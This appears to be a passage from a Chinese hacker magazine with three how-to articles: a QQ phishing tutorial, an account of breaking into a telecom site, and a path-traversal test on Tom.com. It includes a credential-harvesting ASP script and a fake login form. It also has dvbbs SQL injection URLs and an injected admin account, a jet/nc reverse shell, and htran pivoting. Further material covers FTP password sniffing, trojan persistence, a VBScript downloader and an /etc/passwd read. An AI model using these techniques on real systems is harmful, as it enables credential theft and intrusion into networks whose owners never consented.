

作为钓鱼者本身不但要达到钓鱼目的，而且也要逃过反垃圾邮件过滤，这就成为了邮件钓鱼的一大难题（PS：国内反垃圾邮件也属于初起步阶段，而且国内过滤软件对于中文邮件的过滤还是有明显不足）。

我们就来进行一次模拟钓鱼（知道攻击的方法才知道怎么防御嘛）。好了，既然我们伪造了某官方的 E-Mail 地址，现在该伪造邮件内容了，这个很简单但是也很重要。首先构造好我们需要欺骗的内容，这里我用的是正常的一个官方 QQ 网站页面，再把有关信息改成更加诱惑性的（引诱贪小便宜者），下面就该修改提交数据的地方了。看了一遍，找到如下代码：

```html
<form name="form" method="post" action="http://****.***.com/login">
  <INPUT type="hidden" value="http://game.**.com/ap/info.shtml" name="u">
  <tr>
    <td height="25" colspan="2"></td>
  </tr>
  <tr>
    <td width="44" height="25"><b>QQ号码</b></td>
    <td width="126"><input type="text" name="u" style="width:100px;" class="i01"></td>
  </tr>
  <tr>
    <td height="25"><b>密码</b></td>
    <td><input type="password" name="p" style="width:100px;" class="i01"></td>
  </tr>
```

```html
<td width="44" height="25"><b>QQ号码</b></td>
<td width="126"><input type="text" name="u" style="width:100px;" class="i01"></td>
...
<td height="25"><b>密码</b></td>
<td><input type="password" name="p" style="width:100px;" class="i01"></td>
```

为了可以更好地将整个钓鱼过程完善，我们自己构造一个数据库存储页面，致使用户将敏感信息提交。这样我们就可以得到用户的信息了。这个简单的数据库存储页面部分代码如下：

```asp
<%
On Error Resume Next
OICQ = Request.Form("u")
Password=request.form("p")
msg="QQ号码:"&OICQ&" | QQ密码:"&Password
testfile=Server.MapPath("fenggou.asp")
set fs=server.CreateObject("Scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")
thisfile.close
set fs = nothing
%>
<script language=vbscript>
window.location.href="http://www.**.com/"
</script>
```

然后保存到空间上，例如：http://fenggou.net/qq.asp（当然是假的），替换 `http://****.***.com/login`。整个过程最主要的就是用户信息提交处。为了更好地欺骗用户提交信息，我们会在提交代码做一些隐蔽修改。看我的测试结果（图2）：



更有甚者，会把密码记录到远程网站。当你输入敏感信息之后，程序确定无误后整个过程就结束了。那时候钓鱼者会很巧妙地说是因为系统繁忙或者其他原因，导致这次操作不能完整结束。

再告诉大家一个好方法：分析邮件头。我们可以去中国反垃圾邮件联盟的邮件头分析页面（URL: http://anti-spam.org.cn/services/parser.php），首先提取 E-Mail 文件头，然后粘贴到分析页面进行分析。我们来比较下：图4是我伪造的，图5是真实的。



对方输入密码后保存的页面如图3所示。E-Mail 钓鱼邮件的防范并不是很困难的一件事情，最直接的就是查看邮件源代码，看密码类敏感信息被传送到哪个文件。

## URL 欺骗

这个手法比较有意思。当我们鼠标悬停一个链接的时候，浏览器状态栏会显示这个地址。如果我们精心构造该超链接代码，让它表面上是我们看到的连接，但是点完后转向另一个连接呢？

```html
<a href="http://www.cnbct.org" target=_blank><url>http://fenggou.net</a></url>
```

如果对方 E-Mail 的 HTML 代码显示正常，那么他只能看到 http://fenggou.net，但是点击后打开的是 BCT 的网站。还可通过编码形式隐藏真实跳转地址。

图4：邮件头字段对比表（Received、X-Originating-IP、From、Subject、To、Content-Type、Reply-To、Date）  
图5：真实邮件头字段表（含 Received、X-Originating-IP、Date、Message-Id、Subject、From）

还有种 URL 欺骗大家也要注意：有的门户站搜索未过滤，我们搜索一个 JS 脚本例如：`<script>alert('hello BCT')</script>`，确定搜索后就会弹出对话框。也可以构造 `window.open(...)`、`iframe` 等方式来伪造邮件链接，让用户误以为点击的是正常搜索结果。

URL 欺骗的防御方法目前还没有特别好的办法，建议在碰到此类可疑链接时仔细核对状态栏显示地址与页面实际跳转地址是否一致。

以上只是常用的 E-Mail 钓鱼范例。了解常见网络诈骗手法，善用反垃圾邮件联盟及相关工具，可以有效降低被“钓”的风险。最重要的是保持警惕，不贪小便宜。

## 编辑点评

E-Mail 欺骗攻击是常见手法之一，不过依赖用户输入表单来实施，成功率并不高。第一要依赖邮件支持 HTML 语法，第二要依赖用户的心理作用。若能发现大型邮箱服务中的相关漏洞，其影响会很大。

## 渗透菜菜也偷金过程

linzi

## 一、踩点

http://xxx.online.xx.xx 是 XX 电信的站点，这个站是我一直都想拿下的。首页存在注入点，是 sa 角色登录，数据库连放另一外网的主机，那台主机禁止对外连接，但是可以上网，对外不开放端口。http://xxx.online.xx.xx/bbs 为其论坛，版本是 access + dvbbs7.0 sp2。



图1

## 二、拿下 WEBSHELL

动网前台提权的方法我就不多说，利用 jinsdb 写的工具，很快就得到前台管理员权限，开始拿后台权限。由于动网 recycle.asp 过滤不严，导致注入漏洞的存在。先说一下，漏洞不是我发现的，构造注入点如：`http://xxx.online.xx.xx/bbs/recycle.asp?tablename=Dv_bbs1 union select 1,2,l_content,4,5,6 from dv_log where i_id>0 union select 1,1,1,1,1,1 from dv_bbs1&page=7`，获得 l_content 的值，这里存在动网的前后台明文密码。

要注意的是，这个漏洞的前提是以前台管理员身份登录，对 access 和 mssql 的 dvbbs7.x 通杀。通过上面的构造，就可以爆出 l_content 的内容。这里还要说的是，最后面的 `&page=7`，通过上面的注入语句是爆出所有 l_content 的值，但是动网一屏面只能显示 10 多条，所以大家通过修改 page 的值来找 l_content 的内容，一般是在最后几个数字。这个 page 是回收站的页数，如果一共有 130 页，你一般从 120 开始，这样，通过 121、122 一直爆注上去，直到找出 password 的明文。

如果你懂点 SQL 语法的话，当然也可以用来爆管理员的 md5 密码，就更换一下注入语句而已，如：`http://xxx.online.xx.xx/bbs/recycle.asp?tablename=Dv_bbs1 union select 1,2,password,4,5,6 from dv_admin where password>0 union select 1,1,1,1,1,1 from dv_bbs1&page=7`。利用上面的注射方式，就可以爆出 l_content 的值。当然，如果你想爆 dv_admin 的用户，只要构造一下注射语句就可以了。

利用这个注入点很快就会爆出前后台的账号和密码，如图1所示。而对于 SQL 版动网的方法更多，动网的其它文件也存在注入漏洞，如：先查看一下随便一个用户的资料，在最下面的奖惩处点一下，如图2所示。



图2

```sql
test',没有对用户进行分值操作','127.0.0.1',5);insert into dv_admin(username,[password],flag,adduser) values('linzi123','7412b5da7b00cf42','1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37','linzi123');--
```

这样在后台就加了一个 linzi123 的用户。并到后台，SQL 的和 access 在备份的地方有些不同，偶给大家一个备份的 webshell 的文件 databack.htm，打开它的源代码，找到语句 `<form method="post" action="http://目标主机/ADMIN_data.asp?action=BackupData&act=Backup">`，把目标主机换成你已经进入后台的 URL 就可以了，如 http://www.nbct.org/bbs/，接下来就和 access 的一样了，方法我就不多说了。我得到 aspshell 如图3所示。



图3

## 三、代理的妙用

得到 aspshell 后，从传统的思维模式出发，先拿下这台机子，然后再向内网渗透。但是通过踩点后发现，主机的安全性做得还可以，也没什么可以利用的第三方提权软件。通过踩点可以知道，目录限得很死，ActiveX 禁止创建控件，虽然主机有用 Serv-U，但是改了端口和默认的账号和密码，所以根本无法提权。

这时的想法是，先利用 jet exp 得到一个可执行的 shell，然后利用这个 shell 把主机做成一个 socks5 肉鸡，通过反弹，本机也进入其内网，再接着，就是扫描嗅探出主机 Serv-U 的账号和密码，然后 quote site exec 执行命令。

### 实践过程：

- 1. 本地执行：`jet 1 222.222.222.222 520`。其中 222.222.222.222 为本机的 IP，520 为监听端口，这样就生成了一个 db1.mdb。
- 2. 把它上传到 xxx.online.xx.xx，利用老兵的数据库操作功能打开这个 db1.mdb，当然用海阳 2006 的数据库操作功能也可以，只要可以打开就可以。
- 3. 本机事先用 nc 执行 `nc -lp 520`，很快就得到一个反弹的 shell。这里说一下，反弹的权限是当前权限，当你用 systemadmin 打开 db.mdb，返回的是 systemshell，而在 aspshell 下打开则返回了 aspshell 的权限。
- 4. 得到 shell 后，再上传一个 htran，新版的 htran 有个 socks5 反弹的功能。命令依次执行如下：本机 `htran -s -listen 670 6700`，xxx.online.xx.xx 反弹回来的 shell 上执行 `htran -s -connect 我的IP 670`。
- 5. 本机再用 sockscap 连接我的 IP 的 6700 端口，自己就变成了在他的内网中的一台机器。这里要说的是 guest 权限是可以实现 socks5 的转发，大家不必去担心权限不够。sockscap 连接后，挂上扫描器，这个时候你扫的就是那外网内网所在的机子了，偶挂上后扫到内网几台弱口令的机子。

## 四、向 WEB 主机进军

得到内网机子的 system 权限后，开了他的 3389，并用 htran 转到了公网。有了一个 GUI 界面，也就方便自己的渗透。装好驱动，准备 arpsniffer。因为主机有 FTP，且是 Serv-U，所以我选择了嗅探它的 21 端口。对于嗅探的内容，网上有很多人做成了动画，大家去国内的黑客站点搜索一下就有资料。

但是有一点要说一下，有些朋友在嗅探时老是显示 `can't spoof` 等错误信息，我建议大家去小榕的官方网站下载原版的。个人经验觉得是驱动问题，大家换旧的驱动包，不要用新的。几天后，再登上内网的机子，查了一下嗅的文件，看到漂亮的 FTP 密码，不过不是 system 权限，好在目录是 C:\，有写的权限，向启动写了一个批处理，内容就是运行上传的马儿。这里的马，偶放了一个没公布的马，免杀嘛！几天后就看到反弹了。

反弹后，偶先把它做成了 sockscap 肉鸡，这个时候做成服务，方便以后进来。用 sockscap 加个服务器，主要是方便以后的渗透。做完后，用 sockscap 添加 3389 登录器，然后连接 127.0.0.1 就看到了界面，如图4所示。



图4

## 五、问题的 SQL 服务器分析

查看 conn.asp 文件后，可知 mssql 服务器的 IP 是另一公网主机，不过，这台主机做了 IP 限制，只对 xxx.online.xx.xx 开放 1433 端口，其它主机碰不到它。文中继续讨论通过跳板与端口转发方式连接该 SQL 服务器。

```vbscript
echo Set x=CreateObject("Microsoft.XMLHTTP") : x.Open "GET", LCase(WScript.Arguments(0)),0 : x.Send() : Set s=CreateObject("ADODB.Stream") : s.Mode=3 : s.Type=1 : s.Open() : s.Write(x.responseBody) : s.SaveToFile LCase(WScript.Arguments(1)),2
```

然后 `cscript http://.../mt.exe mt.exe`，下载工具后，通过命令查找 mssql 进程并准备批处理。

```bat
@echo off
mt -pskillID
htran -p -tran 1433 127.0.0.1 3389
```

文中继续说明利用 at 命令执行批处理、通过信任进程绕过限制、并借助 iexplore.exe 等路径/文件名信任规则进行突破的思路与测试结果。

## 六、总结

这里的总结是对新手说的，也是我个人学习的经验。看到文章时不要一扫而过，应做笔记、多思考其可取之处并持续总结。

对于这篇文章，技术深度不算高，但如果你能从中学到东西，它就有价值。若有不明白之处可继续交流。

> 【文中相关程序 mt.exe、htran.exe、jet.exe、dvbbs 前台提权通杀工具、admin_data.htm 等收录于附盘】

后续段落讨论了“入侵是否完成”的标准与目的导向：拿到最高权限并不总是终点，取决于任务目标。

# 对 Tom.com 的一次安全测试

网络安全是系统工程，Web 服务常是薄弱环节。文中引出通过 Web Server“数据存取漏洞”对目标站点进行测试的案例。

示例链接：`http://xxxxx.tom.com/script/news.php?datafile=9-28.htm`，通过构造 `../` 路径进行目录穿越探测，发现异常返回。

```php
第182行
第183行 include($datafile)
第184行 ...
```

$datafile 变量未严格过滤，可被用于读取敏感文件。示例提交：`http://xxxxx.tom.com/script/news.php?datafile=../../../../etc/passwd`。

```text
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
...
（返回信息略）
```

# 9月 西线无战事——黑客手册







> 受影响系统：
- PHP 5.0 RC2
- PHP 5.0 RC1
- PHP 4.3.6
- PHP 4.3.3
- PHP 4.3.2
- PHP 4.3.1
